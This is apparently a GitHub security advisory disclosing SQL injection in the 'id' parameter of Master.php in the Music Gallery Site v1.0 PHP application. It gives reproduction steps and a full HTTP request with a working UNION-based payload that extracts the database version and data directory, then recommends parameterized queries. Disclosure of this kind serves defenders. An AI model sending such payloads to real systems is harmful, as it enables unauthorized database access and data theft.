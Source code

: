 # Music Gallery Site - SQL Injection on page Master.php and parameter id is vulnerable. 
> Any remote attacker can access this page to exploit the vulnerbility.
### Date: 
> 21 February 2023
### Author Name: 
> Muhammad Navaid Zafar Ansari
### Author Email: 
> navaidnasari@hotmail.co.uk
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Music Gallery Site](https://www.sourcecodester.com/php/16073/music-gallery-site-using-php-and-mysql-database-free-source-code.html)
### Version:
> v 1.0
### SQL Injection
> SQL Injection is a type of vulnerability in web applications that allows an attacker to execute unauthorized SQL queries on the database by exploiting the application's failure to properly validate user input. The attacker can use this vulnerability to bypass the security measures put in place by the application, allowing them to access or modify sensitive data, or even take control of the entire system. SQL Injection attacks can have severe consequences, including data loss, financial loss, reputational damage, and legal liability. To prevent SQL Injection attacks, developers should properly sanitize and validate all user input, and implement strong security measures, such as input validation, output encoding, parameterized queries, and access controls. Users should also be aware of the risks of SQL Injection attacks and take appropriate measures to protect their data.
# Vulnerable URL:
> URL: php-music/classes/Master.php?f=get_music_details&id=*
### Affected Page:
> Master.php
> On this page, there is "get_music_details" in that id parameter is vulnerable to SQL Injection Attack
> URL of the vulnerable parameter is: php-music/classes/Master.php?f=get_music_details&id=*
### Description:
> The Music Gallery site does have public pages for music library. Whenever someone click on play button any music the popup will appear on the same page. However, on backend server calls the file Master.php, in that file "get_music_details" is running the music and this function Get id parameter is vulnerable to SQL Injection.
### Proof of Concept:
> Following steps are involved:
1. Go to the music list and click on play button of any music.
2. intercept the traffic through burp and get the actual URL
3. In URL, there is a parameter 'id' which is vulnerable to SQL injection (Master.php?f=get_music_details&id=1*)
### Request:
```
GET /php-music/classes/Master.php?f=get_music_details&id=1%27+and+false+union+select+1,version(),@@datadir,4,5,6,7,8,9,10,11--+- HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=a5fd11866a86264db3a68bb1817b2c7f
Connection: close

```
### Response:
![image](https://user-images.githubusercontent.com/123810418/220339548-20e31f82-cab4-4732-8cf7-8a146c2c1d5b.png)

### Recommendation:
> Whoever uses this CMS, should update the code of the application in to parameterized queries to avoid SQL Injection attack:
```
Example Code: 
$sql = $obj_admin->db->prepare("SELECT * FROM `music_list` where `id` = :id");
$sql->bindparam(':id', $id);
$sql->execute();
$row = $sql->fetch(PDO::FETCH_ASSOC);
```
Thank you for reading
